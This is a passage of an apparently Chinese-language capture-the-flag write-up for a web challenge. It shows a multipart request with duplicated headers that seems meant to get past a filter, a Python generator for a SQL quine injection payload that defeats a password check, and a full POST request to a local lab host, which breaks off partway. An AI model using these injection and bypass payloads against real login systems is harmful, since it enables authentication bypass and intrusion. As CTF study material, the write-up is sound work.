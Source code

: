 ```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=a

--a
Content-Disposition: form-data; name="username"

admin
--a
Content-Disposition: form-data; name="password";filename="password"
Content-Disposition: form-data; name="password";

123
--a--
```



这题我们可以使用quine注入，即构造sql语句使我们输入和输出的结果一致，从而绕过

```sql
assert password == users[0].password
```

参考文章：

https://www.cnblogs.com/meraklbz/p/18169584

生成一个payload

```python
def quine(data, debug=True):
    if debug: 
        print(data)
    data = data.replace('$$',"REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = data.replace('$$','"$"').replace("'",'"')
    data = data.replace('$$',"'"+blob+"'")
    if debug: 
        print (data)
    return data

data = quine("1' union select 1,2,$$--")
```



完整payload

```http
POST /flag/ HTTP/1.1
Host: 127.0.0.1:7788
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Referer: http://mitm/
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: multipart/form-data; boundary=a

--a
```